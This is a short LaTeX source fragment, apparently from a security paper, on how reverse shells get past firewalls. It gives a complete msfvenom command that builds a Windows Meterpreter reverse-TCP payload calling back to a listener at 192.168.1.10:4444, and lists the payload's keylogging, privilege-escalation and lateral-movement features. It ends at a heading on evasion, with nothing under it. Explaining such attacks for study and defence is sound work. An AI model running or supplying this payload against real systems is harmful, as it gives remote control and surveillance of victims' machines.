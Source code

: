 \documentclass[11pt,conference]{IEEEtran}
\begin{document}
\textbf{Why Reverse Shells Bypass Firewalls:}
\begin{itemize}
    \item Outbound connections typically allowed (necessary for web browsing, updates)
    \item Inbound connections blocked by default firewall rules
    \item NAT/PAT traversal: victim behind NAT can still connect outbound
    \item Appears as legitimate outbound traffic if ports 80/443 used
\end{itemize}

\subsection{Standard Metasploit Implementation}

The Metasploit Framework provides automated reverse shell generation via Msfvenom:

\begin{lstlisting}[language=bash]
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=192.168.1.10 LPORT=4444 \
  -f exe -o payload.exe
\end{lstlisting}

\textbf{Payload Characteristics:}
\begin{itemize}
    \item Shellcode embedded directly in executable
    \item Creates socket, connects to LHOST:LPORT
    \item Provides interactive Meterpreter shell with advanced features:
    \begin{itemize}
        \item File upload/download
        \item Screenshot capture
        \item Keylogging
        \item Privilege escalation
        \item Lateral movement
    \end{itemize}
    \item \textbf{Detection Rate}: 44/70 antivirus engines (VirusTotal, 2023 study)
\end{itemize}

\section{Custom Reverse Shell Evasion Technique}
\end{document}
